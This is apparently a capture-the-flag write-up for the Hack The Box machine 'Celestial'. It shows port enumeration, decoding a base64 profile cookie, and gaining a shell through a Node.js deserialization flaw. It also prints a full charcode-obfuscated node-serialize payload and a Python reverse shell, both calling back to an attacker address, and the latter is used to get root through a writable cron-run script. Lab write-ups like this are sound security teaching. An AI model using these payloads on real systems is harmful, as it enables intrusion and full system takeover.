 # Celestial Write Up

> - node.js de-serialize issue lead to shell
> - crontab for root

## Enumeration

I started off with a masscan for all 65535 ports and follow it up by nmap

```
root@kali:~/Desktop/HTB/Celestial# nmap -sS -sV -sC -p 3000 10.10.10.85      

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-25 22:22 +08
Nmap scan report for 10.10.10.85
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds

```

Important information we got the scan was, port 3000 is running `node.js` 

A simple curl command return the following.

```
root@kali:~/Desktop/HTB/Celestial# curl -vvv 10.10.10.85:3000
* Rebuilt URL to: 10.10.10.85:3000/
*   Trying 10.10.10.85...
* TCP_NODELAY set
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.60.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 25 Aug 2018 14:38:22 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Sat, 25 Aug 2018 14:23:22 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>r
```

Note the `cookie`

```
profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

%3D decode to `=` which tell us that this is a base64 string. 

This show us that we are setting a cookie with name `profile` of the following value

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

By playing around with the json. I managed to get some errors

![errors](https://raw.githubusercontent.com/lycjackie/boot2root/master/images/celestial.png)

with some googling, I managed to find a nodejs shell code. 

https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

So the final payload for the cookie look something like this

```
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```



### Getting Root

Once I am in the system. The first suspicious file I see was

```
sun@sun:~$ ls -la
ls -la
total 152
...
-rw-r--r--  1 root root   21 Aug 25 10:30 output.txt
sun@sun:~$ date
date
Sat Aug 25 10:36:10 EDT 2018
```

This particular file in sun `home` directory is owned by root and the `date` command show that the system time is only 1 min after modification of the file. Which lead me to think that there is a cronjob running as root behind.



After playing around with the home directory. I found the following

```
sun@sun:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4 15:08 .
drwxr-xr-x 21 sun sun 4096 Aug 25 10:01 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
cat script.py
print "Script is running..."
sun@sun:~/Documents$ cat ../output.txt
cat ../output.txt
Script is running...

```

Note that the content of `output.txt` is identical to `script.py`. Which lead me to think that maybe root is running the script periodically.

Also note that we own the file for `script.py` which also mean that we can write anything into the file.

So using our favorite pentest monkey reverse shell for python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.144",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

and 5 mins of waiting. 

I managed to get root

```
root@sun:~# wc -c root.txt
wc -c root.txt
33 root.txt
root@sun:~# whoami
whoami
root
root@sun:~# 
```



### FIN

After getting root. `crontab -l` show the following

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py

```




